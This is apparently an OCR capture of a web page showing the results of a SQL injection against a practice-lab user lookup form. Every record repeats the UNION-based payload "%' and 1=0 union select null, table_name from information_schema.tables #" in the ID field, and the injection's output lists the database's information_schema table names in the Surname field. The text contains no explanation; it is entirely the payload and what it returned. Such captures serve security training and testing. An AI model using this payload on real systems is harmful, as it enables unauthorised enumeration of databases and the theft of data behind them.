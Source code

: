 First name: 
Surname: PLUGINS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: PROCESSLIST
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: PROFILING
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: REFERENTIAL_CONSTRAINTS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: ROUTINES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SCHEMATA
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SCHEMA_PRIVILEGES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SESSION_STATUS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SESSION_VARIABLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: STATISTICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SQL_FUNCTIONS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SYSTEM_VARIABLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TABLES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TABLESPACES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TABLE_CONSTRAINTS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TABLE_PRIVILEGES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TRIGGERS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: USER_PRIVILEGES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: VIEWS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: GEOMETRY_COLUMNS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: SPATIAL_REF_SYS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 